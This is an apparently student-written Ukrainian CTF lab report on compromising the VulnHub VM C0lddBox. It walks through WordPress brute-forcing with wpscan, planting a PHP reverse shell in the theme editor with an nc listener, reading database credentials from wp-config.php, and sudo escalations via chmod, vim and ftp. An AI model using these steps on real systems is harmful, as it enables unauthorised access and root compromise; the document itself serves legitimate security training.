# Звіт з виконання практичного завдання CTF: C0lddBox (Easy)

**Тема:** Проходження вразливої віртуальної машини C0lddBox (VulnHub).  
**Мета:** Набути практичних навичок проведення комплексного аудиту безпеки веб-ресурсів: від мережевої розвідки та перерахування WordPress-сайту до брутфорсу облікових записів, експлуатації вразливостей шаблонів тем для отримання reverse shell та підвищення привілеїв у системі Linux за допомогою GTFOBins (chmod, vim, ftp).

---

## 1. Вступ та огляд CTF-завдання

Віртуальна машина **C0lddBox** розроблена автором **c0ldd** і розміщена на платформі VulnHub. Завдання належить до категорії початкового рівня складності (Easy). 

**Конфігурація тестового середовища:**
* **Цільова система:** C0lddBox (запущена в Oracle VirtualBox у локальному мережевому адаптері).
* **Атакуюча система:** Kali Linux / Parrot OS.
* **Основні завдання:**
  1. Отримати доступ до веб-панелі управління WordPress.
  2. Впровадити та виконати свій PHP-код для отримання зворотного зв'язку (Reverse Shell).
  3. Провести розвідку файлової системи та отримати перший прапор `user.txt`.
  4. Використати неправильну конфігурацію пільг `sudo` для підвищення привілеїв до `root`.
  5. Знайти та декодувати фінальний прапор `root.txt`.

---

## 2. Мережева розвідка та сканування (Reconnaissance & Enumeration)

### Крок 1. Визначення IP-адреси цільової машини
Для виявлення IP-адреси віртуальної машини C0lddBox у локальній підмережі 10.0.2.0/24 використовується утиліта ARP-сканування `netdiscover`:

```bash
sudo netdiscover -r 10.0.2.0/24
```



За результатами сканування визначено, що цільовий хост має IP-адресу `10.0.2.12`.

### Крок 2. Сканування відкритих портів та визначення служб
Далі проводиться детальний аналіз відкритих мережевих портів та версій служб за допомогою `nmap`:

```bash
sudo nmap -A --reason 10.0.2.12
```



Результати сканування показують, що на цільовій машині відкрито порт 80 (HTTP-сервер Apache 2.4.18 під управлінням Ubuntu Linux).

### Крок 3. Дослідження веб-ресурсу та перерахування користувачів WordPress
Відкривши у браузері адреси `http://10.0.2.12`, виявлено типовий блог на базі CMS WordPress. За допомогою спеціалізованого сканера `wpscan` проводиться автоматичне перерахування користувачів сайту:

```bash
wpscan --url http://10.0.2.12/ -e u
```



У результаті аналізу ідентифіковано трьох зареєстрованих користувачів системи:
* `c0ldd`
* `hugo`
* `Philip`

---

## 3. Брутфорс облікових записів та первинний доступ (Exploitation & Initial Access)

### Крок 4. Атака за словником на обліковий запис `c0ldd`
Оскільки користувач `c0ldd` є автором системи і потенційно володіє правами адміністратора сайту, проти нього проводиться атака методом підбору пароля (brute-force) за допомогою `wpscan` та стандартного словника `rockyou.txt`:

```bash
wpscan --url http://10.0.2.12/ -U c0ldd -P /usr/share/wordlists/rockyou.txt
```



В результаті вдало підібрано облікові дані:  
**Логін:** `c0ldd`  
**Пароль:** `987654321`

### Крок 5. Вхід у панель управління WordPress
За допомогою знайдених облікових даних виконується авторизація у стандартній формі входу `http://10.0.2.12/wp-login.php`:



Успішно отримано доступ до консолі адміністратора сайту.

### Крок 6. Впровадження PHP Reverse Shell через редактор тем
Для отримання виконуваного коду на сервері використовується можливість редагування тем оформлення у розділі **Appearance -> Theme Editor**. 

Для підміни коду обрано шаблон підвалу `footer.php`. У файл впроваджується стандартний скрипт `php-reverse-shell` від PentestMonkey із вказанням IP-адреси атакуючої машини та порту `3421`:



Після внесення змін натискається кнопка **Update File**.

### Крок 7. Перехоплення сесії та стабілізація інтерактивної оболонки
На атакуючій машині запускається мережевий слухач `netcat`:

```bash
nc -lvnp 3421
```

Після оновлення головної сторінки сайту `http://10.0.2.12/` спрацьовує впроваджений код у `footer.php`, і у консолі `netcat` відкривається сесія зворотного шелу:



Для створення повноцінної інтерактивної командної оболонки Bash виконується інтерпретація Python PTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 4. Локальна розвідка та вилучення першого прапора (Local Discovery)

### Крок 8. Пошук конфігураційних файлів та локальних паролів
Перебуваючи у системі під обліковим записом веб-сервера `www-data`, перевіряється вміст головного конфігураційного файлу WordPress `/var/www/html/wp-config.php`:

```bash
cat /var/www/html/wp-config.php
```



У файлі знайдено облікові дані до бази даних MySQL:
* **DB_USER:** `c0ldd`
* **DB_PASSWORD:** `cybersecurity`

### Крок 9. Перехід під користувача `c0ldd` та отримання `user.txt`
Використовується виявлений пароль для зміни поточного користувача на `c0ldd`:

```bash
su c0ldd
```



Перейшовши до домашнього каталогу `/home/c0ldd`, виявлено файл `user.txt`:

```bash
cat /home/c0ldd/user.txt
```



Зашифрований у Base64 вміст файлу декодується:
```bash
echo "R3JhdGlzIGF1ZGllbnMgY29udGVudHVzIGVzdA==" | base64 -d
```
**Значення першого прапора:** `Gratis audiens contentus est` (Латинь: "Безкоштовна аудиторія задоволена").

---

## 5. Підвищення привілеїв до root (Privilege Escalation)

### Крок 10. Аналіз привілеїв `sudo`
Виконується перевірка команд, які користувач `c0ldd` може виконувати з правами суперкористувача без введення пароля:

```bash
sudo -l
```



З виводу виявлено надзвичайно небезпечну конфігурацію: користувачу дозволено виконувати без пароля три бінарні файли від імені `root`:
* `/usr/bin/chmod`
* `/usr/bin/vim`
* `/usr/bin/ftp`

Для кожного з цих інструментів існують техніки обходу обмежень безпеки (з ресурсу GTFOBins).

---

### Крок 11. Метод 1: Експлуатація привілеїв через `chmod`
Бінарний файл `chmod` дозволяє змінювати права доступу до будь-яких файлів у системі.

Для отримання доступу до файлу `/root/root.txt` змінюються права доступу так, щоб його міг прочитати будь-який користувач:

```bash
sudo chmod 6777 /root/root.txt
```



Після цього вміст файлу `/root/root.txt` вільно зчитується.

---

### Крок 12. Метод 2: Отримання root-оболонки через `vim`
Редактор `vim` дозволяє виконувати системні команди прямо з консолі редагування.

Виконується запуск `vim` з правами `sudo`:

```bash
sudo vim -c ':!/bin/bash'
```



Отримано повноцінний інтерактивний доступ з правами `root`.

---

### Крок 13. Метод 3: Отримання root-оболонки через `ftp`
Утиліта `ftp` дозволяє здійснювати виклик локальної оболонки через команду `!`.

Запускається `ftp` з правами `sudo`:

```bash
sudo ftp
!/bin/bash
```



Утиліта успішно спавнить командний інтерпретатор з правами `root`.

---

### Крок 14. Зчитування та декодування фінального прапора `root.txt`
Отримавши доступ суперкористувача, перевіряється вміст підсумкового файлу `/root/root.txt`:

```bash
cat /root/root.txt
```



Рядок Base64 декодується:
```bash
echo "RmVsaWNpZGFkZXMsIG1hcXVpbmEgY29tcGxldGFkYSE=" | base64 -d
```

**Фінальний прапор:**  
`Felicidades, maquina completada!` (Іспанська: "Вітаємо, машина завершена!").

---

## 6. Висновок

Під час виконання практичного завдання CTF **C0lddBox** я успішно пройшов усі етапи проникнення в систему: від початкового аналізу мережевого периметра до повного захоплення прав суперкористувача (`root`).

**Ключові висновки та отримані навички:**
1. **Мережева розвідка:** Закріплено навички визначення активних хостів у підмережі (`netdiscover`) та ідентифікації відкритих служб (`nmap`).
2. **Аудит WordPress:** Засвоєно методики перерахування користувачів (`wpscan`) та виявлення слабких паролів через брутфорс.
3. **Експлуатація Web:** Практично відпрацьовано техніку впровадження PHP Reverse Shell через вбудований редактор тем WordPress та стабілізацію TTY-сесії за допомогою Python.
4. **Аналіз конфігурацій:** Проведено пошук чутливих даних у файлах конфігурації CMS (`wp-config.php`).
5. **Privilege Escalation:** Досліджено ризики некоректної конфігурації файла `/etc/sudoers`. Практично випробувано 3 різні класичні вектори підвищення привілеїв через утиліти `chmod`, `vim` та `ftp` (GTFOBins).

Ця лабораторія наочно демонструє, що навіть найпростіші помилки у налаштуванні прав виконання `sudo` та слабкі паролі користувачів можуть призвести до повної компрометації всього сервера.
